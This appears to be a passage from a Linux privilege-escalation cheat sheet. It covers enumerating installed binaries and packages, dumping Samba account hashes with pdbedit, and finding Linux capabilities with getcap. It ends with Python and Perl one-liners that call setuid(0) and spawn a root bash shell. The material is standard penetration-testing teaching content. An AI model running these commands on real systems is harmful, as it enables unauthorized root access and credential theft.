### Binaries installed

The ideas is to find binairies that we could leverage or binairies that are from third parties that may not be up-to-date with some vulnerabilities

- **/usr/bin/**: Used for programs that both the system administrator and by users can run
- **/usr/local/**: Used by the system administrator when installing software locally.
- **/usr/local/bin/**: Used for programs that a normal user may run.
- **/sbin/**: Used for programs needed for booting, low-level system repair, or maintenance (run level 1 or S)

**local** usually means that they are not part of the distribution but either locally compiled or manually installed

```bash
ls -alh /usr/bin/          # Displays all binaries within /usr/bin/
ls -alh /sbin/             # Displays all binaries within /sbin/
ls -alh /usr/local/        # Displays all the content of /usr/local/
ls -alh /usr/local/bin/    # Displays all the content of /usr/local/
dpkg -l                    # Displays all Debian based packages
rpm -qa --last | head      # Displays all RedHat based packages
yum list | grep installed  #
pkg_info                   # Displays all {Free,Net}BSD based packages
pkginfo                    # Displays all Solaris based packages
cd /var/db/pkg/ && ls -d   # Displays all Gentoo based packages   
pacman -Q                  # Displays all Arch Linux based packages   
```

#### Samba

Samba is a free software re-implementation of the SMB networking protocol.
Samba provides file and print services for various Microsoft Windows clients and can integrate with a Microsoft Windows Server domain, either as a Domain Controller or as a domain member.

The [pdbedit](https://www.samba.org/samba/docs/current/man-html/pdbedit.8.html) program is used to manage the users accounts stored in the sam database and can only be run by root.

```bash
# Lists all the user accounts present in the users database.
pdbedit -L -v
# Lists all the user accounts present in the users database in a format compatible with the smbpasswd file format.
pdbedit -L -w
```

### Linux Capabilities

The [getcap](https://www.man7.org/linux/man-pages/man8/getcap.8.html) command displays the name and capabilities of each specified file.
To recursively check the capabilities of all files you have access, use the following command **getcap -r / 2>/dev/null**
For instance, you can find Python or Perl that are assigned to root and you can do the following then:

```bash
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```
